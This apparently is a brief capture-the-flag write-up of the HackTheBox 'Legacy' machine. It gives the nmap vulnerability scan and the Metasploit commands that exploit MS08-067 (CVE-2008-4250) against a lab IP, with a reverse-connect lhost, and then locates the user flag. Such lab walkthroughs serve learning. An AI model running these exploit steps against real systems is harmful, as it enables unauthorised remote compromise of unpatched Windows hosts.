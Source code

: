 # 🦵 Legacy

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We start with a quick scan ->

i have these ports:&#x20;

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
nmap -p 445 --script vuln  10.129.29.238
```

**--script vuln:** Checks for specific known vulnerabilities and generally only report results if they are found

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>CVE-2008-4250</p></figcaption></figure>

i run msfconsole ->

```
search ms08-067
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```
use 0
options
set lhost 10.10.14.166
set rhosts 10.129.29.238
exploit
```

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

there is a lot of file so let's look for the file we're interested in :

```bash
search -f user.txt
c:\Documents and Settings\john\Desktop\user.txt
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and for some reason the root file was not protected by any privesc...

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (700).png" alt=""><figcaption></figcaption></figure>

